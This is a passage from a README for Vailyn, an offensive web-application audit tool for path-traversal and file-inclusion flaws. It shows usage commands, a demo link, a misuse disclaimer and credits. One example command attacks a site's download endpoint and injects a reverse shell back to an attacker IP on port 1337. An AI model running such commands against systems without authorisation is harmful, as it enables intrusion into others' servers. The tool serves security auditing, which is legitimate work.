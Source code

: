 * Attack, but I want a reverse shell on port 1337:
`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 inject MY.IP.IS.XX 1337  # a high Phase 2 Depth is needed for log injection`
(will start a ncat listener for you if on Unix)

* Full automation in crawler mode:
`$ Vailyn -v "http://root-url.site" -a A` _you can also specify other args, like cookie, depths, lfi & lookup file here_ 

* Full automation, but Arjun needs `--stable`:
`$ Vailyn -v "http://root-url.site" -a A -s ANY`

### Demo

[![asciicast](https://asciinema.org/a/384813.svg)](https://asciinema.org/a/384813)
Vailyn's Crawler analyzing a damn vulnerable web application. LFI Wrappers are not enabled.

[GUI Demonstration (v2.2.1-5)](https://www.youtube.com/watch?v=rFlR_SHk9fc)

### Possible Issues

Found some false positives/negatives (or want to point out other bugs/improvements): please leave an issue!

### Code of Conduct

> Vailyn is provided as an offensive web application audit tool. It has built-in functionalities which can reveal potential vulnerabilities in web applications, which could be exploited maliciously.
>
> **THEREFORE, NEITHER THE AUTHOR NOR THE CONTRIBUTORS ARE RESPONSIBLE FOR ANY MISUSE OR DAMAGE DUE TO THIS TOOLKIT.**
>
> By using this software, the user obliges to follow their local laws, to not attack someone else's system without explicit permission from the owner, or with malicious intent.
>
> In case of an infringement, only the end user who committed it is accountable for their actions.

### Credits & Copyright

> Vailyn: Copyright © <a href="https://github.com/VainlyStrain">VainlyStrain</a>
>
> Arjun:  Copyright © <a href="https://github.com/s0md3v">s0md3v</a>

Arjun is no longer distributed with Vailyn. Install its latest version via pip.
